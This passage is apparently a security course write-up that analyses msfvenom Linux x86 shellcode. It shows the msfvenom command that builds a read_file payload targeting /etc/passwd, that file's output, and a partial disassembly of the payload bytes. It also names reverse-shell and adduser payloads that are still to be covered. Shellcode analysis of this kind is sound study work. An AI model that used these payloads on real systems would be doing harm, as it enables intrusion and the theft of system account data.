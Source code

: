 
# Analysing shellcode generated by msfvenom

In this article, I will analyse three shellcode samples generated by msfvenom, specifically:

- linux/x86/read_file
- linux/x86/adduser
- linux/x86/shell/reverse_tcp

```
msfvenom --list payloads -a x86 --platform linux
```

Let's see if there is something new we can learn from these samples :)


## Analysing linux/x86/read_file

First, we generate the executable like so:

```
msfvenom -p linux/x86/read_file -a x86 --platform linux PATH=/etc/passwd FD=2 -f elf -o read_file
```

I set the payload options `PATH` and `FD` to `/etc/passwd` and `2`. Executing the program outputs the contents of `/etc/passwd`.

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ ./read_file
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
...
```

Now that we know that the payload works, we can start analyzing it using a few simple tools.

With `ndisasm` we can disassemble the binary and analyse the assembly code.

```asm
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ msfvenom -p linux/x86/read_file -a x86 --platform linux PATH=/etc/passwd FD=2 -f raw | ndisasm -u -
No encoder specified, outputting raw payload
Payload size: 73 bytes

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB02000000        mov ebx,0x2
```